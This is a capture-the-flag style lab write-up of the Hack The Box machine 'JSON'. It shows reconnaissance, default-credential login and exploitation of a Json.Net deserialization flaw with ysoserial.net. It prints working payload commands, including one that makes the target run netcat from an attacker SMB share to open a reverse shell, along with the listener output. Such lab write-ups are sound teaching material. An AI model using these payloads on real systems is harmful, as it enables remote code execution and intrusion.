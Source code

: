 # Exercise: Exploiting .NET deserialization on the box JSON

In this machine, an nmap scan reveals that it is a Windows box with FTP \(port 21\), HTTP \(port 80\) and SMB \(port 139,445\) running.

```bash
┌─[rin@parrot]─[~/boxes/JSON]
└──╼ $sudo nmap -v -sC -sV -T4 --min-rate 1000 -p- json.htb -oA nmap/full-tcp
PORT STATE SERVICE VERSION
21/tcp open ftp FileZilla ftpd
| ftp-syst:
|_ SYST: UNIX emulated by FileZilla
80/tcp open http Microsoft IIS httpd 8.5
| http-methods:
| Supported Methods: GET HEAD OPTIONS TRACE
|_ Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/8.5
|_http-title: Json HTB
135/tcp open msrpc Microsoft Windows RPC
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
445/tcp open microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
5985/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49152/tcp open msrpc Microsoft Windows RPC
49153/tcp open msrpc Microsoft Windows RPC
49154/tcp open msrpc Microsoft Windows RPC
49155/tcp open msrpc Microsoft Windows RPC
49156/tcp open msrpc Microsoft Windows RPC
49157/tcp open msrpc Microsoft Windows RPC
49158/tcp open msrpc Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: 
cpe:/o:microsoft:windows
```

The website on port 80 reveals a login page that takes the common credentials "admin" and "admin" as username and password.

If you turn on the Burp proxy in FoxyProxy but leave Intercept off in Burp Suite, all of the calls from the browser will go through the proxy and be available in the HTTP History tab. When you click submit after entering the username and password, the page does a POST request to the endpoint /api/token, providing the username and password that was entered. The response to this POST returns a status code of 202 \(Accepted\) and provides a Set-Cookie header:

```bash
Set-Cookie: OAuth2=eyJJZCI6MSwiVXNlck5hbWUiOiJhZG1pbiIsIlBhc3N3b3JkI
joiMjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzMiLCJOYW1lIjoiVXNlciBBZ
G1pbiBIVEIiLCJSb2wiOiJBZG1pbmlzdHJhdG9yIn0=; expires=Thu, 22-Oct-2020 
08:44:50 GMT; path=/
```

The next request is a GET request for the page /index.html and the cookie OAuth2 is now set. After getting script and HTML files, a GET request is made to /api/Account. Interestingly, here a second header, "Bearer" is used with the same contents as the OAuth2 cookie contents:

```markup
GET /api/Account/ HTTP/1.1
Host: 10.10.10.158
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Bearer: eyJJZCI6MSwiVXNlck5hbWUiOiJhZG1pbiIsIlBhc3N3b3JkIjoiMjEyMzJmM
        jk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzMiLCJOYW1lIjoiVXNlciBBZG1pbi
        BIVEIiLCJSb2wiOiJBZG1pbmlzdHJhdG9yIn0=
DNT: 1
Connection: close
Referer: 
http://10.10.10.158/index.html

Cookie: OAuth2=eyJJZCI6MSwiVXNlck5hbWUiOiJhZG1pbiIsIlBhc3N3b3JkIjoiMj
        EyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzMiLCJOYW1lIjoiVXNlciB
        BZG1pbiBIVEIiLCJSb2wiOiJBZG1pbmlzdHJhdG9yIn0=
```

This request returns details of the account:

```bash
{"Id":1,"UserName":"admin","Password":"21232f297a57a5a743894a0e4a801fc3",
"Name":"User Admin HTB","Rol":"Administrator"}
```

Which is actually what you get if you take the Base64 in the Bearer header and decode it.. It is worth noting that the Bearer header suggests that this is Bearer Authentication which is defined as part of the OAuth 2.0 standard. However, normally, the header is actually formatted as:

```bash
Authentication: Bearer <token>
```

The token in this case would also be encrypted or at least cryptographically signed as per the standard and clearly it is not here.

To explore what the Bearer header does, if you change the content of the Bearer header by putting a non-numerical character in the Id field, say "1a" and the re-encode it using Base64. an error is returned by the application:

```bash
{"Message":"An error has occurred.",
"ExceptionMessage":"Cannot deserialize Json.Net Object",
"ExceptionType":"System.Exception","StackTrace":null}
```

Here you get a clue about a possible vulnerability. The message "Cannot deserialize Json.Net Object" suggests a deserialization attack may be possible.

There is a series of utilities called YSoSerial.Net \([https://github.com/pwntester/ysoserial.net\](https://github.com/pwntester/ysoserial.net\)\) that can be used to generate .NET deserialization attacks.

{% hint style="info" %}
You can download the latest release of the program 

[https://github.com/pwntester/ysoserial.net/releases/download/v1.34/ysoserial-1.34.zip\](https://github.com/pwntester/ysoserial.net/releases/download/v1.34/ysoserial-1.34.zip\)
{% endhint %}

Using YSoSerial.Net, we can test that the vulnerability can be exploited by trying to ping back to our machine. Given that this is .NET, although it could be done on Parrot SOSec, it is easier to do this on a Windows VM. you can provide the following parameters to ysoserial.exe specifying the output as base64 and the command you want to run as a ping to our machine:

```bash
./ysoserial.exe -f Json.Net -g ObjectDataProvider \
-o base64 -c "ping -n 5 10.10.14.3"
```

Taking the output from this and putting it in the Bearer header, you get an exception from the server, but the pings come back:

```bash
┌──[✗]─[rin@parrot]─[~/boxes/JSON]
└──╼ $sudo tcpdump -i tun0 icmp
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
15:00:46.782092 IP 10.10.10.158 > 10.10.14.3: ICMP echo request, id 1, seq 1, 
    length 40
15:00:46.782231 IP 10.10.14.3 > 10.10.10.158: ICMP echo reply, id 1, seq 1, 
    length 40
```

To get a reverse shell on the box, you can do as you did in Bankrobber and use an SMB share to give access to Netcat \(nc.exe\) and have a listener on our box.

Changing the ysoserial command to the following:

```bash
.\ysoserial.exe -f Json.Net -g ObjectDataProvider -o base64 \
-c "\10.10.14.3\share\nc64.exe 10.10.14.3 6001 -e cmd.exe"
```

We then get a reverse shell:

```bash
┌──[rin@parrot]─[~/boxes/JSON]
└──╼ $nc -lvnp 6001
listening on [any] 6001 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.10.158] 49780
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.
c:\windows\system32\inetsrv>whoami
whoami
json\userpool
c:\windows\system32\inetsrv>
```



